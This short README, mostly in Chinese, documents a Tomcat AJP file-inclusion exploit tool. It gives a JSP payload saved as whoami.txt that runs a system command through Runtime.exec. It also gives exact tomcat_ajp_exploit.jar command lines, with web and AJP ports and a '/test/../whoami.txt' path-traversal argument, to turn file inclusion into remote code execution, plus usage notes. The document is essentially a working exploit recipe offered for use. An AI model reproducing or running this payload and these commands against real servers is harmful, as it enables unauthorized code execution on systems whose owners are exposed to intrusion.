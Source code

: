 # tomcat-ajp


webapps test目录下有个文件whoami.txt，内容：
<%out.println(new java.io.BufferedReader(new  java.io.InputStreamReader(Runtime.getRuntime().exec("whoami").getInputStream())).readLine());%>

rce: java -jar tomcat_ajp_exploit.jar 127.0.0.1 8080 8009 / /test/../whoami.txt

要想rce， 第一个参数必须设置成/, 第二个参数设置成被执行文件的类路径/test/../whoami.txt（测试的结果需要加../ ，否则提示找不到文件）

java -jar tomcat_ajp_exploit.jar 127.0.0.1 8080 8009 /test/ ../whoami.txt 如果test路径不存在，则读去的是root目录下的whoami.txt

System.out.println("java -jar xxx.jar host webport ajpport webpath filepath");
